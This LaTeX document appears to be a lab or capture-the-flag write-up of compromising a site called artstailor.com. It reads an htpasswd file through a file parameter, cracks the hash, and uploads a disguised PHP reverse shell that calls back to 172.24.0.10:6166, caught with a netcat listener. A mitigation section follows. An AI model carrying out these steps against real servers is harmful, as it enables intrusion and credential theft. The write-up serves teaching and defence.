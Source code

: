 \documentclass[notitlepage]{article}
\begin{document}
  	\subsubsection*{Confirmation method}
  	    First, get the credentials to the admin panel by navigating to 		
\begin{verbatim}
www.artstailor.com/brian/getimage.php?raw=true&file=htpasswd
\end{verbatim}
    and then running this through John The Ripper to get the following censored credentials
\begin{verbatim}
Brian: Sw...h
\end{verbatim}
    We can alter the reverse shell we want to upload to make sure it comes back to our own machine. For me, this was
\begin{verbatim}
$ip = '172.24.0.10'
$port = '6166'
\end{verbatim}
    Next, we want to move this file to a jpg file and then open up Burp Suite and upload this file as a test to see how the file is uploaded. We
    can then alter the POST packet to change the name to reverse.php as it seems to only check the Content-Type if we upload it directly on Burp Suite.
    Lastly, we open up netcat to the port we wrote earlier and navigate to the reverse.php as follows
\begin{verbatim}
nc -nlvp 6166
xdg-open www.artstailor.com/brian/imgfiles/reverse.php
\end{verbatim}
    On the terminal with netcat open, we can now see that we have a shell and running whoami reveals that we are in fact www-data. Running ip a further reveals that we are on
    172.70.184.133 which is the IP where the brian site was hosted on.

    \subsubsection*{Mitigation or Resolution Strategy}
    To mitigate a reverse shell attack, there are a few strategies that could have been employed. Firstly, a forward facing admin panel should try to be avoided, especially to do
    something like upload images which can be done on the system without having to expose this code to the user. If brian is the only admin to the account that can upload content, there
    is no point in leaving the script up on the site. Next, there should not have been a way for any user to get access to the htpasswd file. The server should have been configured to ensure
    there is no way to get access to this file through some sort of configuration. The hash should also have not been as easy to guess and should have been a harder password. Also, there
    should be better restrictions on the file types that are uploaded. For example, some sort of server-side validation should have been performed instead of a simple extension check. Using 
    something as simple as the file command would have made it a little harder to upload the file. 
\end{document}
